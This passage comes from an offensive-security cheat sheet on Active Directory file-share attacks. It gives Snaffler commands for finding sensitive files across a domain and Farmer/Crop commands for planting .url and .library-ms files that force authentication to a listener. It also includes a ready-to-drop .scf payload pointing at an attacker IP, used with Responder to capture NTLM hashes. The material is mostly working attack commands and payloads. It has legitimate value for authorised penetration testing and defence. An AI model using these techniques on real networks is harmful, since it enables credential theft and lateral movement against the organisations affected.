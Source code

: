 - [SnaffCon/Snaffler - a tool for pentesters to help find delicious candy](https://github.com/SnaffCon/Snaffler)
    
    ```ps1
    snaffler.exe -s - snaffler.log
    
    # Snaffle all the computers in the domain
    ./Snaffler.exe -d domain.local -c <DC> -s
    
    # Snaffle specific computers
    ./Snaffler.exe -n computer1,computer2 -s
    ​
    # Snaffle a specific directory
    ./Snaffler.exe -i C:\ -s
    ```
    

## SCF and URL file attack against writeable share

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```ps1
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```

### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Using [`crackmapexec`](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/slinky.py):

